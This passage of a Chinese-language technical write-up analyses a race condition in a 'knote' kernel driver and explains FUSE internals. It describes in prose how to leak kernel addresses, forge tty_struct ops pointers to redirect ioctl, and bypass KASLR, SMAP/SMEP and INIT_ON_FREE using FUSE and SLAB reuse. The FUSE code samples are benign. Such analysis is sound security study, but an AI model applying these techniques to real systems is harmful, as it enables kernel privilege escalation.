1. **通过GET_CHUNK泄露内核地址**：利用GET_CHUNK漏洞的竞态条件，在内存被释放后立即分配tty_struct，读取其内容获取内核函数指针，计算内核基址和其他关键地址。

2. **内存状态重置与准备**：关闭之前获取的tty文件描述符释放tty_struct，重新通过ADD_CHUNK分配相同大小的内存，为EDIT_CHUNK操作准备目标内存。

3. **构造伪造的tty_struct数据**：基于GET_CHUNK阶段获取的内核地址信息，精心构造伪造的tty_struct数据。关键修改包括：
    - 保持magic字段为原始值0x5401，确保通过内核的完整性检查
    - 修改ops指针指向伪造的操作表地址
    - 在ioctl函数指针位置设置特定代码地址

4. **通过EDIT_CHUNK篡改内存**：利用EDIT_CHUNK漏洞的竞态条件，在tty_struct初始化完成前写入伪造数据，成功篡改其关键字段。

5. **触发与验证**：对已被篡改的tty文件描述符执行操作（如ioctl），验证控制流是否被重定向到预期地址，确认漏洞的完整影响。

**技术优势**：

- **信息依赖**：EDIT_CHUNK阶段依赖于GET_CHUNK阶段获取的内核地址信息
- **时序协调**：两个漏洞的触发都需要精确的竞态控制，但GET_CHUNK为EDIT_CHUNK提供了必要的前提条件
- **验证完整性**：从信息泄露到内存篡改，再到控制流影响验证，形成了完整的技术验证链

整个流程展示了从信息泄露到内存篡改的完整路径，充分验证了该漏洞的严重性，同时也展示了在现代内核安全机制限制下，复杂竞态条件漏洞的验证技术。

### 2-3. 关键技术原理深度分析

#### 2-3-1. 内核并发与竞态条件模型

**TOCTOU (Time-Of-Check-Time-Of-Use) 模式**：
这是竞态条件漏洞的经典模式。在knote驱动中，`GET_CHUNK`和`EDIT_CHUNK`的操作模式完美契合TOCTOU：

1.  **Check (检查)**：验证`chunks[idx].buf != NULL`。
2.  **Use (使用)**：基于检查时获得的指针执行`copy_to/from_user`。

由于检查与使用之间缺乏原子性（未在锁保护下），其他线程（如执行`DELETE_CHUNK`）可以修改检查所依赖的状态（`buf`指针），导致使用时的前提假设失效。

**锁保护粒度与一致性**：
正确的内核驱动设计应确保**锁的覆盖范围与临界区定义一致**。knote驱动的临界区是所有访问`chunks`数组及其元素的代码路径。`ADD_CHUNK`和`DELETE_CHUNK`正确地将整个操作序列置于锁内。而`GET_CHUNK`和`EDIT_CHUNK`错误地认为其操作不构成临界区，这是漏洞根源。

**并发操作的时间序列分析**：
设两个线程 $$T_1$$ 和 $$T_2$$ 并发操作，$$T_1$$ 执行GET/EDIT_CHUNK，$$T_2$$ 执行DELETE_CHUNK。操作时间线如下：

| 时间    | $$T_1$$ (GET/EDIT_CHUNK)        | $$T_2$$ (DELETE_CHUNK) | 系统状态             |
| ------- | ------------------------------- | ---------------------- | -------------------- |
| $$t_0$$ | 开始                            | -                      | $$S_0$$              |
| $$t_1$$ | 检查通过                        | -                      | $$S_0$$              |
| $$t_2$$ | 进入copy_to/from_user           | 开始                   | $$S_0$$              |
| $$t_3$$ | FUSE阻塞                        | 获取写锁               | $$S_0$$              |
| $$t_4$$ | 阻塞中                          | 检查通过               | $$S_0$$              |
| $$t_5$$ | 阻塞中                          | kfree释放内存          | $$S_1$$ (内存已释放) |
| $$t_6$$ | 阻塞中                          | 释放写锁               | $$S_1$$              |
| $$t_7$$ | 恢复执行                        | -                      | $$S_1$$              |
| $$t_8$$ | copy_to/from_user访问已释放内存 | -                      | 错误                 |

设 $$t_{\text{check}}$$ 为检查时间，$$t_{\text{use}}$$ 为使用时间，$$t_{\text{delete}}$$ 为DELETE_CHUNK执行时间。竞态发生的条件为：

$$
t_{\text{check}} < t_{\text{delete}} < t_{\text{use}}
$$

通过FUSE阻塞，可控制 $$t_{\text{use}} - t_{\text{check}}$$ 足够大，使该条件大概率满足。

#### 2-3-2. 竞态窗口扩展技术 (FUSE)

**FUSE 工作原理**：
FUSE允许在用户空间实现文件系统。当内核访问映射到FUSE文件的内存页时，会触发缺页异常，最终由用户空间的FUSE守护进程处理该请求。在FUSE的`read`/`write`回调函数中，程序可以控制执行的暂停与恢复。


```mermaid
flowchart TD
    A[内核访问FUSE映射内存] --> B[触发页面异常#13]
    B --> C[内核缺页异常处理]
    C --> D{异常类型判断}
    D -->|FUSE映射| E[调用FUSE内核模块]
    D -->|其他映射| F[标准缺页处理]

    E --> G[构建FUSE请求包]
    G --> H[发送请求到用户空间FUSE守护进程]
    H --> I[上下文切换到用户空间]

    I --> J[FUSE守护进程接收请求]
    J --> K[执行用户定义回调函数]
    K --> L[控制执行时间: 主动阻塞/休眠]

    L --> M[准备响应数据]
    M --> N[发送响应到内核]
    N --> O[上下文切换回内核空间]

    O --> P[内核处理FUSE响应]
    P --> Q[建立页面映射]
    Q --> R[恢复原始指令执行]

    style A fill:#e3f2fd
    style B fill:#ffebee
    style L fill:#f3e5f5
    style R fill:#e8f5e9
```

**窗口扩展机制**：
在技术验证中，FUSE的核心作用是将不可控的纳秒级竞态窗口扩展为完全可控的毫秒/秒级窗口。

1.  **正常窗口**：$$T_{\text{native}} = T_{\text{check}} + T_{\text{gap}}$$ （$$T_{\text{gap}}$$极小）
2.  **扩展后窗口**：$$T_{\text{extended}} = T_{\text{check}} + T_{\text{fuse_block}} + T_{\text{gap}}$$

其中$$T_{\text{fuse_block}}$$是FUSE回调中主动引入的阻塞时间。这使得并发执行`DELETE_CHUNK`等操作变得非常可靠。

**时序精确控制**：
通过FUSE阻塞与恢复，结合线程间信号同步（如`SIGUSR1`），可以实现对内核执行流的精确暂停与继续控制，这是成功触发复杂竞态序列的关键。

#### 2-3-3. 内存管理机制 (SLAB) 与对象重用

**SLAB分配器与LIFO行为**：
Linux内核的SLAB分配器为不同大小的对象维护缓存。为了性能，每个CPU核心有本地的空闲对象列表（freelist）。当对象被释放（`kfree`）时，通常被插入对应CPU本地freelist的**头部**；当分配新对象（`kmalloc`）时，从**头部**取出。这种后进先出（LIFO）策略使得**最近释放的对象最有可能被立即重新分配**，特别是在单线程或CPU绑定的情况下。


```mermaid
flowchart TD
    A[内存分配请求] --> B{大小判断}
    B -->|≤ 8KB| C[SLAB分配器处理]
    B -->|> 8KB| D[伙伴系统处理]

    C --> E[确定对应size缓存]
    E --> F[检查当前CPU本地缓存]
    F --> G{本地缓存是否为空}
    G -->|是| H[从共享缓存补充]
    H --> I[更新本地缓存freelist]
    G -->|否| I

    I --> J[从freelist头部取对象]
    J --> K[返回分配的内存对象]

    D --> L[调用alloc_pages]
    L --> M[伙伴系统分配连续页面]
    M --> N[返回分配的内存]

    subgraph "SLAB分配器关键特性"
        O[LIFO: 后进先出]
        P[Per-CPU缓存]
        Q[内存重用优化]
    end

    style C fill:#e3f2fd
    style J fill:#f3e5f5
    style K fill:#e8f5e9
    style O fill:#fff3e0
```

**内存重用特性**：
在技术验证中，通过绑定CPU、连续执行释放与分配操作，可以最大化LIFO行为的效果，使内存重用概率显著提高。这使得`tty_struct`能够可靠地重用刚刚被驱动释放的内存块，实现类型混淆。

**CONFIG_INIT_ON_FREE 的应对**：
该配置在内核释放内存时自动清零，旨在防止信息泄露。在技术验证流程中，其影响被巧妙规避：信息泄露并非从释放的内存中读取残留数据（此时已被清零），而是读取**新分配并已初始化的`tty_struct`对象**中的合法指针。内存写入阶段则依赖精确的时序竞争，在内存被清零后、新对象完全初始化前，用伪造数据覆盖部分字段。

### 2-4. 安全机制与应对分析

**内核安全机制概述**

现代Linux内核包含多种安全机制，旨在增加漏洞触发的难度。knote驱动所在的内核环境启用了包括`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_INIT_ON_FREE_DEFAULT_ON`、`CONFIG_DEBUG_LIST`、`CONFIG_DEBUG_PLIST`在内的多项保护机制。这些机制共同构成了纵深防御体系。

**安全机制应对策略**

尽管内核启用了多项安全机制，但knote驱动的漏洞仍然可以在特定条件下被验证。以下是主要安全机制及其应对策略的分析：

| 安全机制                          | 机制目的                           | 对验证流程的影响           | 验证流程中的应对策略                                                         |
| --------------------------------- | ---------------------------------- | -------------------------- | ---------------------------------------------------------------------------- |
| **KASLR**                         | 随机化内核代码/数据地址            | 无法预知内核符号地址       | 通过`GET_CHUNK`竞态泄露`tty_struct->ops`等指针，动态计算内核基址。           |
| **CONFIG_INIT_ON_FREE**           | 释放内存时自动清零                 | 阻止从释放内存中获取旧数据 | 信息泄露依赖于读取**新分配对象**的内容；数据写入依赖竞态在初始化完成前覆盖。 |
| **SMAP/SMEP**                     | 阻止内核访问/执行用户空间内存/代码 | 阻止直接跳转到用户空间     | 使用纯内核空间的代码片段，所有指令均来自内核镜像。                           |
| **SLAB_FREELIST_RANDOM/HARDENED** | 随机化/强化SLAB分配器              | 增加内存布局预测难度       | 通过CPU绑定利用per-CPU缓存的局部性，结合大量分配提高重用概率。               |
| **HARDENED_USERCOPY**             | 强化用户空间与内核空间边界检查     | 防止越界拷贝               | 确保拷贝操作在合法范围内，不触发边界检查。                                   |
| **每进程9次IOCTL限制**            | 限制对漏洞设备的操作次数           | 极大地限制了操作步骤       | 精心设计操作序列，将ADD、GET、DELETE、EDIT调用次数压缩到最少。               |

**FUSE技术的核心作用**：
FUSE在应对这些安全机制中扮演了关键角色。通过FUSE，可以实现：

1. **竞态窗口扩展**：将难以利用的纳秒级窗口扩展为完全可控的窗口
2. **时序精确控制**：实现对内核执行流的精确暂停与恢复
3. **数据可控提供**：在需要时提供伪造的数据结构

**SLAB分配器行为的利用**：
尽管有SLAB_FREELIST_RANDOM等保护，但通过以下策略仍可提高内存重用的可靠性：

1. **CPU绑定**：将操作绑定到特定CPU核心，利用per-CPU缓存的确定性
2. **大量分配**：通过多次分配消耗随机化影响
3. **快速连续操作**：减少其他线程干扰的机会

### 2-5. 技术总结

本技术验证详细分析了knote驱动程序中的竞态条件漏洞机制。漏洞根源在于驱动同步机制的设计不一致：`ADD_CHUNK`和`DELETE_CHUNK`命令正确使用了读写锁保护，而`GET_CHUNK`和`EDIT_CHUNK`命令完全缺乏锁保护，形成了典型的TOCTOU（检查时间与使用时间）竞态条件。通过数学形式化描述，精确定义了GET_CHUNK和EDIT_CHUNK漏洞的触发条件，即DELETE_CHUNK操作必须在GET/EDIT_CHUNK的检查之后、使用之前执行。

验证流程展示了如何利用FUSE技术扩展竞态窗口，结合SLAB分配器的LIFO行为实现内存重用，构建完整的技术验证链。验证链的核心是**GET_CHUNK漏洞用于信息泄露获取内核地址，EDIT_CHUNK漏洞基于泄露信息进行内存篡改**，两者协同工作实现了从信息泄露到控制流影响的完整验证路径。

整个验证流程在多种内核安全机制（如CONFIG_INIT_ON_FREE、KASLR、SMAP/SMEP等）的限制下，仍然能够成功触发漏洞并验证其影响，凸显了内核并发漏洞的严重性和现代内核安全防护机制的局限性，为深入理解内核安全提供了重要的技术参考。

## 3. FUSE技术深入分析

### 3-1. FUSE技术概述与演进

#### 3-1-1. FUSE概念与设计哲学

**FUSE (Filesystem in Userspace)** 是Linux内核提供的一个框架，允许在用户空间实现完整的文件系统，而无需修改内核代码。这一设计哲学的核心在于**将文件系统的实现逻辑从内核空间迁移到用户空间**，从而显著降低了文件系统开发的复杂度和风险。FUSE通过在内核中提供一个通用的文件系统驱动模块，作为用户空间文件系统与内核VFS（Virtual File System）层之间的桥梁，实现了这一目标。

FUSE的设计遵循了**微内核架构**的思想，将复杂的文件系统逻辑置于用户空间，内核仅保留最小化的、经过严格验证的通信和调度机制。这种分离带来了多重优势：

1.  **开发安全性**：用户空间文件系统的崩溃不会导致整个系统崩溃，仅影响该文件系统实例。
2.  **调试便利性**：可以使用标准的用户空间调试工具（如gdb、valgrind）进行调试。
3.  **部署灵活性**：无需重新编译或加载内核模块，普通用户即可挂载自定义文件系统。
4.  **语言无关性**：可以使用任何编程语言实现文件系统逻辑。

#### 3-1-2. FUSE技术演进

FUSE技术自2005年首次被合并到Linux内核主线以来，经历了两个主要版本的演进：**FUSE2 (libfuse 2.x)** 和 **FUSE3 (libfuse 3.x)**。FUSE3于2016年12月发布，是对FUSE2的重大升级，引入了多项架构改进和新特性。


```mermaid
flowchart LR
    A[FUSE技术演进] --> B["FUSE2 (libfuse 2.x)"<br>2005-2016]
    A --> C["FUSE3 (libfuse 3.x)"<br>2016至今]

    B --> B1[API设计: 高/低层API混合]
    B --> B2[线程模型: 单线程/简单多线程]
    B --> B3[性能特性: 基础缓存机制]
    B --> B4[兼容性: 广泛支持但部分接口过时]

    C --> C1[API设计: 统一简化API]
    C --> C2[线程模型: 改进的多线程支持]
    C --> C3[性能特性: writeback缓存/readdirplus]
    C --> C4[安全性: 增强的权限检查]

    B1 --> D[高层API: 基于路径操作<br>低层API: 基于inode操作]
    C1 --> E[API重构: 移除过时函数<br>统一命名规范]

    B2 --> F[默认单线程处理<br>可选多线程模式]
    C2 --> G[clone_fd选项: 每线程独立fd<br>更好的并发支持]

    B3 --> H[基础read-ahead缓存]
    C3 --> I[内核端writeback缓存<br>readdirplus减少getattr调用]

    style A fill:#e3f2fd
    style B fill:#ffebee
    style C fill:#e8f5e9
```

**FUSE2的核心特性**：

- **API设计**：提供高层同步API和低层异步API。高层API基于文件名和路径操作，简化了开发；低层API基于inode操作，提供更细粒度的控制。
- **线程模型**：支持单线程和多线程模式，但多线程实现相对简单，存在性能瓶颈。
- **功能范围**：支持基本的文件系统操作，包括文件读写、目录遍历、权限管理等。

**FUSE3的主要改进**：

- **API简化与重构**：移除了大量过时接口，统一了函数命名规范。例如，`fuse_lowlevel_new`重命名为`fuse_session_new`，头文件从`<fuse.h>`改为`<fuse3/fuse.h>`。
- **readdirplus支持**：在目录遍历时同时返回文件属性，减少额外的`getattr`调用，显著提升目录操作性能。
- **改进的多线程模型**：引入`clone_fd`选项，每个线程使用独立的`/dev/fuse`文件描述符，减少锁竞争，提升并发性能。
- **writeback缓存**：内核端回写缓存支持，显著提升写入性能。
- **增强的挂载API**：`fuse_session_mount()`替代旧的`fuse_mount()`，提供更好的错误处理和资源管理。
- **安全性增强**：改进的权限检查机制，降低用户空间进程权限提升的风险。

**版本选择考量**：在技术验证场景中，FUSE2和FUSE3均可用于竞态窗口扩展。FUSE3的改进主要针对生产环境下的性能和稳定性，对于漏洞验证的核心机制（通过页面异常阻塞内核执行流）而言，两者功能等价。实际选择通常基于目标系统的FUSE版本兼容性。

### 3-2. FUSE架构深度解析

#### 3-2-1. 整体架构与组件交互

FUSE架构由三个核心组件构成：**内核模块(fuse.ko)**、**用户空间库(libfuse)** 和 **挂载工具(fusermount)**。这三个组件协同工作，实现了用户空间文件系统与内核VFS的无缝集成。


```mermaid
flowchart TD
    subgraph "用户空间(User Space)"
        A[用户应用程序] --> B[标准系统调用<br>open/read/write等]
        B --> C[glibc系统调用封装]

        subgraph "FUSE守护进程(FUSE Daemon)"
            D[libfuse库] --> E[用户自定义文件系统逻辑]
            F[FUSE主循环<br>fuse_loop/fuse_session_loop]
        end

        G[挂载工具 fusermount]
    end

    subgraph "内核空间(Kernel Space)"
        H[虚拟文件系统层 VFS]
        I[FUSE内核模块 fuse.ko]
        J[字符设备 /dev/fuse]

        K[页面缓存 Page Cache]
        L[块设备层 Block Layer]
    end

    C --> H
    H --> I
    I --> J
    J --> D

    D --> F
    F --> E
    E --> D

    I --> K
    K --> L

    style A fill:#e3f2fd
    style E fill:#f3e5f5
    style I fill:#fff3e0
    style J fill:#ffebee
```

**组件职责详解**：

1.  **FUSE内核模块(fuse.ko)**：
    - 向VFS注册FUSE文件系统类型
    - 拦截对FUSE文件系统的操作请求
    - 将请求封装为FUSE协议格式
    - 通过`/dev/fuse`与用户空间通信
    - 管理请求队列和等待队列

2.  **libfuse用户空间库**：
    - 提供与内核模块通信的API
    - 实现FUSE协议解析和封装
    - 管理文件系统挂载和卸载
    - 提供高层和低层两种API接口
    - 处理多线程和并发请求

3.  **fusermount挂载工具**：
    - 执行安全的文件系统挂载操作
    - 处理权限和命名空间隔离
    - 为普通用户提供非特权挂载能力

4.  **/dev/fuse字符设备**：
    - 内核与用户空间之间的通信通道
    - 每个FUSE连接对应一个独立的文件描述符
    - 支持读写操作传输请求和响应

#### 3-2-2. 内核区关键机制分析

FUSE内核模块是连接VFS和用户空间的关键桥梁，其核心机制包括请求拦截、协议封装、队列管理和异常处理。

**请求拦截与路由机制**：
当用户程序对FUSE挂载点发起文件操作时，VFS根据文件系统类型将请求路由到FUSE内核模块。FUSE模块通过注册的`file_operations`、`inode_operations`和`super_operations`结构体中的回调函数拦截这些请求。

```c
// 简化的FUSE文件操作结构
static const struct file_operations fuse_file_operations = {
    .read_iter    = fuse_file_read_iter,     // 读操作
    .write_iter   = fuse_file_write_iter,    // 写操作
    .mmap         = fuse_file_mmap,          // 内存映射
    .open         = fuse_open,               // 打开文件
    .release      = fuse_release,            // 关闭文件
    .fsync        = fuse_fsync,              // 同步文件
    // ... 其他操作
};
```

**请求封装与协议格式**：
FUSE使用固定的协议格式在内核和用户空间之间传递请求和响应。每个请求都包含一个固定大小的头部，后跟操作特定的数据。

```c
// FUSE请求头部结构（简化）
struct fuse_in_header {
    uint32_t len;       // 请求总长度（包括头部）
    uint32_t opcode;    // 操作码（如FUSE_READ、FUSE_WRITE）
    uint64_t unique;    // 请求唯一标识符
    uint64_t nodeid;    // 文件节点ID
    uint32_t uid;       // 用户ID
    uint32_t gid;       // 组ID
    uint32_t pid;       // 进程ID
    uint32_t padding;   // 填充字段
};
```

**队列管理与同步机制**：
FUSE内核模块维护多个队列来管理请求的生命周期：

1.  **待处理队列(pending list)**：存储已发送到用户空间但尚未收到响应的请求。
2.  **中断队列(interrupt list)**：存储需要中断的请求。
3.  **等待队列(wait queue)**：阻塞等待响应的进程队列。

当请求被发送到用户空间后，发起请求的进程会被放入等待队列，直到用户空间返回响应或超时。

**内存映射与页面异常处理**：
`fuse_file_mmap`函数处理FUSE文件的`mmap`系统调用。当进程访问映射的内存区域时，如果页面尚未加载，会触发缺页异常。FUSE通过`fuse_vma_page_mkwrite`和`fuse_page_mkwrite`等函数处理这些异常，向用户空间请求数据。

```c
// FUSE内存映射相关操作
static const struct vm_operations_struct fuse_file_vm_ops = {
    .fault        = fuse_vma_fault,        // 缺页异常处理
    .page_mkwrite = fuse_vma_page_mkwrite, // 页面写时复制
    // ... 其他虚拟内存操作
};
```

#### 3-2-3. 用户区回调函数实现

libfuse库通过`struct fuse_operations`结构体定义文件系统操作回调函数。用户需要实现这些回调函数来定义文件系统的行为。以下分别展示FUSE2和FUSE3的回调函数实现：

**FUSE2回调函数实现**

在FUSE2中，`struct fuse_operations` 是文件系统操作的主要接口。以下是FUSE2中必需的回调函数实现：

```c
#include <fuse.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <unistd.h>
#include <time.h>

/* 文件系统数据结构 */
struct file_entry {
    char *path;
    char *data;
    size_t size;
    mode_t mode;
    time_t mtime;
};

/* 内存中的文件表 */
static struct file_entry files[] = {
    {"/", NULL, 4096, S_IFDIR | 0755, 0},
    {"/test.txt", "Hello from FUSE2!", 18, S_IFREG | 0644, 0},
    {NULL, NULL, 0, 0, 0}
};

/* 1. 获取文件/目录属性 */
static int fuse_ops_getattr(const char *path, struct stat *stbuf) {
    printf("FUSE2 getattr: %s\n", path);

    memset(stbuf, 0, sizeof(struct stat));

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            stbuf->st_mode = files[i].mode;
            stbuf->st_nlink = 1;
            stbuf->st_size = files[i].size;
            stbuf->st_uid = getuid();
            stbuf->st_gid = getgid();
            stbuf->st_atime = stbuf->st_mtime = stbuf->st_ctime = time(NULL);
            return 0;
        }
    }

    return -ENOENT;
}

/* 2. 读取目录内容 */
static int fuse_ops_readdir(const char *path, void *buf, fuse_fill_dir_t filler,
                           off_t offset, struct fuse_file_info *fi) {
    printf("FUSE2 readdir: %s\n", path);

    (void) offset;
    (void) fi;

    if (strcmp(path, "/") != 0)
        return -ENOENT;

    filler(buf, ".", NULL, 0);
    filler(buf, "..", NULL, 0);

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(files[i].path, "/") != 0) {
            const char *name = strrchr(files[i].path, '/');
            if (name) name++;
            else name = files[i].path;

            if (*name != '\0') {
                filler(buf, name, NULL, 0);
            }
        }
    }

    return 0;
}

/* 3. 打开文件 */
static int fuse_ops_open(const char *path, struct fuse_file_info *fi) {
    printf("FUSE2 open: %s, flags: 0x%x\n", path, fi->flags);

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            if ((fi->flags & O_ACCMODE) == O_WRONLY ||
                (fi->flags & O_ACCMODE) == O_RDWR) {
                if (!(files[i].mode & S_IWUSR)) {
                    return -EACCES;
                }
            }

            // 设置直接IO，绕过页面缓存
            // fi->direct_io = 1;
            return 0;
        }
    }

    return -ENOENT;
}

/* 4. 读取文件内容 */
static int fuse_ops_read(const char *path, char *buf, size_t size, off_t offset,
                        struct fuse_file_info *fi) {
    printf("FUSE2 read: %s, size: %zu, offset: %ld\n", path, size, offset);

    (void) fi;

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            if (offset >= files[i].size)
                return 0;

            if (offset + size > files[i].size)
                size = files[i].size - offset;

            if (files[i].data) {
                memcpy(buf, files[i].data + offset, size);
            } else {
                memset(buf, 0, size);
            }

            return size;
        }
    }

    return -ENOENT;
}

/* 5. 写入文件内容 */
static int fuse_ops_write(const char *path, const char *buf, size_t size,
                         off_t offset, struct fuse_file_info *fi) {
    printf("FUSE2 write: %s, size: %zu, offset: %ld\n", path, size, offset);

    (void) fi;

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            if (!(files[i].mode & S_IWUSR))
                return -EACCES;

            // 在实际应用中，这里会更新文件数据和大小
            // 这里只是模拟写入操作
            return size;
        }
    }

    return -ENOENT;
}

/* FUSE2操作结构体 */
static struct fuse_operations fuse_ops = {
    .getattr = fuse_ops_getattr,
    .readdir = fuse_ops_readdir,
    .open    = fuse_ops_open,
    .read    = fuse_ops_read,
    .write   = fuse_ops_write,
};

int main(int argc, char *argv[]) {
    // 初始化文件的修改时间
    for (int i = 0; files[i].path != NULL; i++) {
        files[i].mtime = time(NULL);
    }

    return fuse_main(argc, argv, &fuse_ops, NULL);
}
```

**FUSE3回调函数实现**

FUSE3对API进行了重构，提供了更一致和简化的接口。以下是FUSE3的回调函数实现：

```c
#define FUSE_USE_VERSION 31
#include <fuse3/fuse.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/statvfs.h>
#include <unistd.h>
#include <time.h>

/* 文件系统数据结构 */
struct file_entry {
    char *path;
    char *data;
    size_t size;
    mode_t mode;
    time_t mtime;
};

/* 内存中的文件表 */
static struct file_entry files[] = {
    {"/", NULL, 4096, S_IFDIR | 0755, 0},
    {"/test.txt", "Hello from FUSE3!", 18, S_IFREG | 0644, 0},
    {NULL, NULL, 0, 0, 0}
};

/* 1. 获取文件/目录属性 */
static int fuse_ops_getattr(const char *path, struct stat *stbuf,
                           struct fuse_file_info *fi) {
    printf("FUSE3 getattr: %s\n", path);

    (void) fi;
    memset(stbuf, 0, sizeof(struct stat));

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            stbuf->st_mode = files[i].mode;
            stbuf->st_nlink = 1;
            stbuf->st_size = files[i].size;
            stbuf->st_uid = getuid();
            stbuf->st_gid = getgid();
            stbuf->st_atime = stbuf->st_mtime = stbuf->st_ctime = time(NULL);
            return 0;
        }
    }

    return -ENOENT;
}

/* 2. 读取目录内容 */
static int fuse_ops_readdir(const char *path, void *buf, fuse_fill_dir_t filler,
                           off_t offset, struct fuse_file_info *fi,
                           enum fuse_readdir_flags flags) {
    printf("FUSE3 readdir: %s, flags: %d\n", path, flags);

    (void) offset;
    (void) fi;

    if (strcmp(path, "/") != 0)
        return -ENOENT;

    filler(buf, ".", NULL, 0, 0);
    filler(buf, "..", NULL, 0, 0);

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(files[i].path, "/") != 0) {
            const char *name = strrchr(files[i].path, '/');
            if (name) name++;
            else name = files[i].path;

            if (*name != '\0') {
                filler(buf, name, NULL, 0, 0);
            }
        }
    }

    return 0;
}

/* 3. 打开文件 */
static int fuse_ops_open(const char *path, struct fuse_file_info *fi) {
    printf("FUSE3 open: %s, flags: 0x%x\n", path, fi->flags);

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            if ((fi->flags & O_ACCMODE) == O_WRONLY ||
                (fi->flags & O_ACCMODE) == O_RDWR) {
                if (!(files[i].mode & S_IWUSR)) {
                    return -EACCES;
                }
            }

            // 设置直接IO，绕过页面缓存
            // fi->direct_io = 1;
            return 0;
        }
    }

    return -ENOENT;
}

/* 4. 读取文件内容 */
static int fuse_ops_read(const char *path, char *buf, size_t size, off_t offset,
                        struct fuse_file_info *fi) {
    printf("FUSE3 read: %s, size: %zu, offset: %ld\n", path, size, offset);

    (void) fi;

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            if (offset >= files[i].size)
                return 0;

            if (offset + size > files[i].size)
                size = files[i].size - offset;

            if (files[i].data) {
                memcpy(buf, files[i].data + offset, size);
            } else {
                memset(buf, 0, size);
            }

            return size;
        }
    }

    return -ENOENT;
}

/* 5. 写入文件内容 */
static int fuse_ops_write(const char *path, const char *buf, size_t size,
                         off_t offset, struct fuse_file_info *fi) {
    printf("FUSE3 write: %s, size: %zu, offset: %ld\n", path, size, offset);

    (void) fi;

    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            if (!(files[i].mode & S_IWUSR))
                return -EACCES;

            // 在实际应用中，这里会更新文件数据和大小
            // 这里只是模拟写入操作
            return size;
        }
    }

    return -ENOENT;
}

/* 6. 获取文件系统统计信息 */
static int fuse_ops_statfs(const char *path, struct statvfs *stbuf) {
    printf("FUSE3 statfs: %s\n", path);

    (void) path;

    // 填充虚拟的文件系统统计信息
    stbuf->f_bsize = 4096;
    stbuf->f_frsize = 4096;
    stbuf->f_blocks = 1000;     // 总块数
    stbuf->f_bfree = 500;       // 空闲块数
    stbuf->f_bavail = 500;      // 可用块数
    stbuf->f_files = 100;       // 总文件节点数
    stbuf->f_ffree = 50;        // 空闲文件节点数
    stbuf->f_favail = 50;       // 可用文件节点数
    stbuf->f_fsid = 0;
    stbuf->f_flag = 0;
    stbuf->f_namemax = 255;

    return 0;
}

/* FUSE3操作结构体 */
static struct fuse_operations fuse_ops = {
    .getattr = fuse_ops_getattr,
    .readdir = fuse_ops_readdir,
    .open    = fuse_ops_open,
    .read    = fuse_ops_read,
    .write   = fuse_ops_write,
    .statfs  = fuse_ops_statfs,
};

int main(int argc, char *argv[]) {
    struct fuse_args args = FUSE_ARGS_INIT(argc, argv);
    struct fuse_cmdline_opts opts;
    struct fuse_session *se;
    int ret = 1;

    // 初始化文件的修改时间
    for (int i = 0; files[i].path != NULL; i++) {
        files[i].mtime = time(NULL);
    }

    // 解析命令行参数
    if (fuse_parse_cmdline(&args, &opts) != 0)
        return 1;

    // 创建FUSE会话
    se = fuse_session_new(&args, &fuse_ops, sizeof(fuse_ops), NULL);
    if (se == NULL)
        goto err_out;

    // 挂载文件系统
    if (fuse_session_mount(se, opts.mountpoint) != 0)
        goto err_free_session;

    // 设置信号处理
    fuse_set_signal_handlers(se);

    // 运行事件循环
    if (opts.singlethread)
        ret = fuse_session_loop(se);
    else
        ret = fuse_session_loop_mt(se, opts.clone_fd);

    // 清理
    fuse_session_unmount(se);

err_free_session:
    fuse_session_destroy(se);
err_out:
    fuse_opt_free_args(&args);

    return ret;
}
```

### 3-3. FUSE工作流程与通信机制

#### 3-3-1. 完整请求处理序列

FUSE文件系统的完整请求处理涉及用户程序、内核VFS、FUSE内核模块和用户空间守护进程之间的复杂交互。以下以`read()`系统调用为例，展示完整的处理序列。


```mermaid
sequenceDiagram
    participant 用户程序 as 用户程序
    participant VFS as VFS层
    participant FUSE内核 as FUSE内核模块
    participant 设备 as /dev/fuse
    participant 守护进程 as FUSE守护进程
    participant 回调函数 as 用户回调函数

    Note over 用户程序,回调函数: 阶段1: 请求发起与拦截
    用户程序->>VFS: read(fd, buf, size)
    VFS->>FUSE内核: fuse_file_read_iter()

    Note over FUSE内核,设备: 阶段2: 请求封装与发送
    FUSE内核->>FUSE内核: 分配fuse_req结构体
    FUSE内核->>FUSE内核: 构建fuse_in_header
    FUSE内核->>FUSE内核: 添加read特定参数
    FUSE内核->>设备: 写入请求到/dev/fuse
    FUSE内核->>FUSE内核: 将进程加入等待队列

    Note over 设备,守护进程: 阶段3: 用户空间处理
    守护进程->>设备: read()读取请求
    设备->>守护进程: 返回请求数据
    守护进程->>守护进程: 解析请求头部
    守护进程->>守护进程: 根据opcode分发
    守护进程->>回调函数: 调用用户实现的read回调
    回调函数-->>守护进程: 返回文件数据

    Note over 守护进程,设备: 阶段4: 响应构建与发送
    守护进程->>守护进程: 构建fuse_out_header
    守护进程->>守护进程: 添加响应数据
    守护进程->>设备: write()写入响应

    Note over 设备,FUSE内核: 阶段5: 内核接收与处理
    设备->>FUSE内核: 唤醒等待的FUSE内核
    FUSE内核->>FUSE内核: 解析响应数据
    FUSE内核->>FUSE内核: 将数据复制到用户缓冲区
    FUSE内核->>FUSE内核: 唤醒等待进程

    Note over FUSE内核,用户程序: 阶段6: 返回结果
    FUSE内核->>VFS: 返回读取结果
    VFS->>用户程序: 返回读取的字节数

    Note right of 用户程序: ✅ read()操作完成
```

**各阶段详细说明**：

